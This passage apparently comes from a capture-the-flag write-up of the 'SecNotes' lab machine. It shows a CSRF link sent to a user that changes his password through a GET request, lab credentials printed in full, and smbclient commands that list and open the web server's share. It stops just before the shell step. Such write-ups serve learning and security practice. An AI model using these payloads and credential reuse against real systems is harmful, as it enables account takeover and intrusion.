 The Change Password page works through a POST request but it also works if we use a GET request instead.

We can send messages to Tyler through the Contact Us form and he'll click on every link that we send him. Because there is no anti-CSRF token on the Change Password page, we can trick Tyler in changing his password.

Initially, I tried sending an HTML link such as:

`<a href="http://10.10.10.97/change_pass.php?password=test11&confirm_password=test11&submit=submit">Click this!</a>` but it didn't work.

However plaintext works: `http://10.10.10.97/change_pass.php?password=test11&confirm_password=test11&submit=submit`.

So we send this to Tyler and we can log in after with the password we specified in the link.

### User shell

The credentials for Tyler are in one of the notes:

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

Let's verify which shares he has access to:

```
root@darkisland:~/tmp# smbclient -U tyler -L //10.10.10.97
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	new-site        Disk      

root@darkisland:~/tmp# smbclient -U tyler //10.10.10.97/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

		12978687 blocks of size 4096. 7919013 blocks available
```

So the `new-site` share is the root directory of the webserver listening on port 8808.

To get a shell on the box we'll do the following:
